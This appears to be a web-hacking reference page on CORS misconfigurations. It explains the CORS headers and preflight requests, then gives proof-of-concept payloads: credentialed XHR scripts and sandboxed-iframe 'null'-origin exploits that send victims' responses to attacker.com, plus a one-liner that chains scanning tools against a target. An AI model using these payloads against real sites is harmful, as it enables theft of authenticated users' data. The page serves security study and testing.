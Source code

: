 # CORS - Misconfigurations & Bypass
Cross-Origin Resource Sharing (CORS) standard enables servers to define who can access their assets and which HTTP request methods are permitted from external sources.

A same-origin policy mandates that a server requesting a resource and the server hosting the resource share the same `protocol` (e.g., http://), `domain name` (e.g., internal-web.com), and `port` (e.g., 80). Under this policy, only web pages from the same domain and port are allowed access to the resources.

![cors](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/9eee5927-fdb6-4fe2-8182-d669453230d1)





## `Access-Control-Allow-Origin` Header
This header can allow multiple origins, a `null` value, or a wildcard `*`. However, no browser supports multiple origins, and the use of the wildcard `*` is subject to limitations. (The wildcard must be used alone, and its use alongside `Access-Control-Allow-Credentials: true` is not permitted.)
This header is issued by a server in response to a cross-domain resource request initiated by a website, with the browser automatically adding an `Origin` header.

## `Access-Control-Allow-Credentials` Header
By default, cross-origin requests are made without credentials like cookies or the Authorization header. Yet, a cross-domain server can allow the reading of the response when credentials are sent by setting the `Access-Control-Allow-Credentials` header to `true`.
If set to true, the browser will transmit credentials (cookies, authorization headers, or TLS client certificates).


```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        console.log(xhr.responseText);
    }
}
xhr.open('GET', 'http://example.com/', true); 
xhr.withCredentials = true; 
xhr.send(null);
```

```javascript
fetch(url, {
  credentials: 'include'  
})
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```


## CSRF Pre-flight request
When initiating a cross-domain request under specific conditions, such as using a non-standard HTTP method (anything other than `HEAD`, `GET`, `POST`), introducing new headers, or employing a special Content-Type header value, a pre-flight request may be required. This preliminary request, leveraging the 
`OPTIONS` method, serves to inform the server of the forthcoming cross-origin request's intentions, including the HTTP methods and headers it intends to use.

The Cross-Origin Resource Sharing (CORS) protocol mandates this pre-flight check to determine the feasibility of the requested cross-origin operation by verifying the allowed methods, headers, and the trustworthiness of the origin. For a detailed understanding of what conditions circumvent the need for a pre-flight request, refer to the comprehensive guide provided by [Mozilla Developer Network (MDN)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests).

It's crucial to note that the absence of a pre-flight request does not negate the requirement for the response to carry authorization headers. Without these headers, the browser is incapacitated in its ability to process the response from the cross-origin request.
Consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named Special-Request-Header:

```html
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```

In response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:

```html
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

## Reflection of `Origin` in `Access-Control-Allow-Origin`
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

## Exploiting the `null` Origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```


## Automate CORS
```bash
echo https://target.com | hakrawler | httpx -silent | CorsMe -header
```




## Tools
* [CorsMe](https://github.com/Shivangx01b/CorsMe)
* [hakrawler](https://github.com/hakluke/hakrawler)


























